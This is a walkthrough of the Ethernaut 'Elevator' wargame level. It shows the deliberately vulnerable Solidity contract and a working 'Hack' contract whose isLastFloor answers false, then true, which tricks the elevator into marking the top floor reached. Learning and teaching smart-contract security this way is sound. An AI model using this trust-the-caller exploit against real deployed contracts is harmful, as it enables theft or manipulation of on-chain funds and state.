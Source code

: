 # Type - Beyond the console

***

This elevator won't let you reach the top of your building. Right?

Things that might help:
Sometimes solidity is not good at keeping promises.
This Elevator expects to be used from a Building.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

***

# Solution
1. Get a new instance
2. The goal is to reach the top floor, now  we can see that if we can call the isLastFloor twice we can achieve our goal
3. Lets create a new contract which implements the interface of Building contract, also make a supporting function that calls the goTo() function and makes sure we reach the top
4. The first call in the isLastFloor must amount to false and the next call should be true to pass this level, we can keep track of how many times the isLastFloor() function was called by using a state variable and achieve the required goal

```
contract Hack {
  Elevator private immutable target;
 uint private count;

  constructor(address _target){
    target = Elevator(_target);
  }

  function isLastFloor(uint) external returns(bool){
    count++;
    return count > 1;
  }

  function triggerHack() external  {
    target.goTo(1);
    require(target.top(),"not top");
  }
}
```

*** 

# Explanation

Smart Contract Programmer - [Ethernaut 11 - Elevator](https://www.youtube.com/watch?v=IfljmOqThvI)
